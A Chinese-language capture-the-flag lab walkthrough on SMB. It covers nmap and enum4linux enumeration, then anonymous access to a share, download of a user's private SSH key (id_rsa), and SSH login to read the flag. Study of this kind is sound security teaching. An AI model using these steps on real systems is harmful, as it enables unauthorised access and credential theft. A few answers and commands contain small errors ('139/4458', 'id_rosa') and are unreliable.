

本部分讨论一些常见的网络服务和错误配置导致的安全漏洞
## 了解SMB

**SMB** ( Server Message Block)   服务器消息块协议

- 是一种 **(client-server)** 通信协议，用于共享网络上的文件、打印机、串行端口和其他资源的访问。[来源](https://searchnetworking.techtarget.com/definition/Server-Message-Block-Protocol)
- SMB 协议被称为响应请求协议 **(response-request protocol)**，它在客户端和服务器之间传输多个消息以建立连接。
- 客户端使用 TCP/IP（实际上是 RFC1001 和 RFC1002 中指定的 TCP/IP 上的 NetBIOS）、NetBEUI 或 IPX/SPX 连接到服务器。
- 建立连接后，客户端可以向服务器发送命令 (SMB)。允许客户端执行您想要对文件系统执行的所有操作。
- 所有操作都是通过网络完成的。
- 自Windows 95以来，Microsoft Windows操作系统为Unix系统提供的开源服务，用于共享文件。
-
 

 ::: details  **回答下面问题**


:::
## 枚举SMB

枚举 **(Enumeration)** 是收集目标信息的过程，目的是找到潜在的攻击媒介并帮助利用。

这个过程对于攻击成功至关重要，因为浪费时间利用不起作用或可能使系统崩溃的漏洞可能是浪费能量。枚举可用于收集用户名、密码、网络信息、主机名、应用程序数据、服务或对攻击者可能有价值的任何其他信息。

**SMB通常是攻击者寻找发现敏感信息的绝佳起点** 如果服务器上有SMB共享驱动器，通常可以连接到并用于查看或传输文件。

### 端口扫描
枚举的第一步是进行端口扫描，尽可能多地了解目标机器的服务、应用程序、结构和操作系统。我们可以通过[NMAP](5.Network_NMAP.md)工具进行扫描。

### Enum4linux
Enum4linux是一个用于枚举Windows和Linux系统上的SMB共享的工具。它基本上是samba包中工具的包装器，可以轻松地从目标中快速提取与SMB有关的信息。它已经安装在AttackBox上，但是如果你需要在自己的攻击机器上安装它，你可以从官方[github](https://github.com/portcullislabs/enum4linux)上安装。

**使用**

语法： `Enum4linux [options] ip`


| options | 解释              |
| ------- | --------------- |
| -U      | 获取用户列表          |
| -M      | 获取机器（machine）列表 |
| -N      | 获取命名空间转储        |
| -S      | 获取共享列表          |
| -P      | 获取密码策略信息        |
| -G      | 获取组和成员列表        |
| -a      | 所有上述（完整的基本枚举)   |
### **回答下面问题**


::: details  **Task-1：** 使用nmap 扫描，发现有多少端口是开放的？

**答案**：3

```bash
sudo nmap -sS -sV 10.10.75.224
```


:::

::: details  **Task-2：** SMB在什么端口上运行?

**答案**：139/4458

```bash
sudo nmap -sS -sV 10.10.75.224
```


:::


::: details **Task-3** 使用`Enum4Linux`,进行完整的枚举，对于新使用者，他们的名字是什么 ？

**答案**：workgroup


**解析:**

SMB 协议默认全局配置的预设工作组名称为Workgoup,所有匿名登陆的人，都会叫这个名字。

:::

::: details **Task-4** 机器的名字？

**答案**：POLOSMB


:::

::: details **Task-5** 操作系统版本？

**答案**：6.1


:::


::: details **Task-6** 我们需要调查？

**答案**：profiles

**解析：**


**这里问的是我们接下来要关注的是哪个目录**


从`Share Enumeration（共享枚举）` 中可以看到有一个目录是连接成功（`OK`）的，因此我们接下来要重点关注。
:::

## SMB利用

虽然SMB存在漏洞(如[CVE-2017 - 7494](https://www.cvedetails.com/cve/CVE-2017-7494/))可以通过利用SMB允许远程代码执行。但遇到更多的是由于系统错误配置导致您可以轻松进入系统。

在这个例子中，将利用匿名 [SMB](#了解SMB) **共享访问**的错误配置，获取远程shell权限。在正式开始之前，我们要知道我们需要哪些工具和信息：
### SMB共享
在枚举阶段我们应该获取到以下信息：
- SMB 共享的位置
- SMB的共享名称
### SMBClient

我们需要一个`SMBclient`(SMB 客户端)来访问服务器上的 [SMB](#了解SMB) 共享资源。如果您的机器没有安装可以参考[此文档](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)。我们可以使用以下语法远程访问`SMB`共享。
```bash
smbclient //[ip]/[share]
```

然后是tags：

```text
- U [name]: 指定用户名
- p [port]: 指定端口
```

**明白了吧，OKay，让我们开始吧！**

### 开始练习

让我们回答以下问题：

::: details 以用户名`suit` 访问 IP 为10.10.10.2的计算机上的SMB服务默认端口上的共享文件`secret`的正确语法是什么？

**答案：**
```bash
smbclient //10.10.10.2/secret -U suit -p 445
```
:::

好极了！现在您已经掌握了语法的窍门，让我们尝试利用匿名用户漏洞，首先要看看我们感兴趣的共享是否配置运行匿名用户访问：

>[!TIP] 匿名访问
>匿名访问不需要身份验证即可查看文件：
>- 使用用户名：`Anonymous`
>- 连接到在枚举阶段找到的共享
>- 不需要提供密码

::: details 共享是否允许匿名访问 **Y/N** ?
**答案**：`Y`

解析： 我们可以在不提供密码的情况下进行连接，这证明网络共享允许匿名访问：
```bash{13,14}
$smbclient //10.10.187.207/profiles -p 445
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Apr 21 12:08:23 2020
  ..                                  D        0  Tue Apr 21 11:49:56 2020
  .cache                             DH        0  Tue Apr 21 12:08:23 2020
  .profile                            H      807  Tue Apr 21 12:08:23 2020
  .sudo_as_admin_successful           H        0  Tue Apr 21 12:08:23 2020
  .bash_logout                        H      220  Tue Apr 21 12:08:23 2020
  .viminfo                            H      947  Tue Apr 21 12:08:23 2020
  Working From Home Information.txt      N      358  Tue Apr 21 12:08:23 2020
  .ssh                               DH        0  Tue Apr 21 12:08:23 2020
  .bashrc                             H     3771  Tue Apr 21 12:08:23 2020
  .gnupg                             DH        0  Tue Apr 21 12:08:23 2020

		12316808 blocks of size 1024. 7584044 blocks available
smb: \>
```

:::

::: details 好极了!看看周围的任何有趣的文件，可能包含有价值的信息。我们可以假设这个档案夹是谁的？
**答案**:  `John Cactus`
让我们下载有趣的文档：
```bash
smb: \> get "Working From Home Information.txt"
getting file \Working From Home Information.txt of size 358 as Working From Home Information.txt (1.8 KiloBytes/sec) (average 1.8 KiloBytes/sec)
smb: \>
```

现在，让我们看看文档包含什么：
```bash
$ cat Working\ From\ Home\ Information.txt
```

```text{4}
John Cactus,

As you're well aware, due to the current pandemic most of POLO inc. has insisted that, wherever
possible, employees should work from home. As such- your account has now been enabled with ssh
access to the main server.

If there are any problems, please contact the IT department at it@polointernalcoms.uk

Regards,

James
Department Manager
```

:::

::: details  配置了什么服务允许他在家工作？
**答案**：`ssh`

:::

::: details  好的，我会的现在我们知道了这一点，我们应该在共享上的哪个目录中查找？
**答案**：`.ssh`

:::

:: details  此目录包含允许用户在服务器上进行身份验证并随后访问服务器的身份验证密钥。这些钥匙中哪一个对我们最有用？

**答案**：`id_rsa`

```bash
smb: \> cd .ssh
smb: \.ssh\> ls
  .                                   D        0  Tue Apr 21 13:08:23 2020
  ..                                  D        0  Tue Apr 21 13:08:23 2020
  id_rsa                              A     1679  Tue Apr 21 13:08:23 2020
  id_rsa.pub                          N      396  Tue Apr 21 13:08:23 2020
  authorized_keys                     N        0  Tue Apr 21 13:08:23 2020
```

:::

将此文件下载到本地计算机，并使用“chmod 600 [`file`]"将权限更改为“600”。
现在，使用您已经收集的信息来计算帐户的用户名。然后，使用服务和密钥登录到服务器。

::: details  What is the smb.txt flag?
**答案**：`THM{smb_is_fun_eh?}`

```bash
get id_rsa


chmod 600 id_rsa  $chmod 600 id_rosa
ssh -i id_rsa cactus@10.10.187.207

cat smb.txt
THM{smb_is_fun_eh?}
```
:::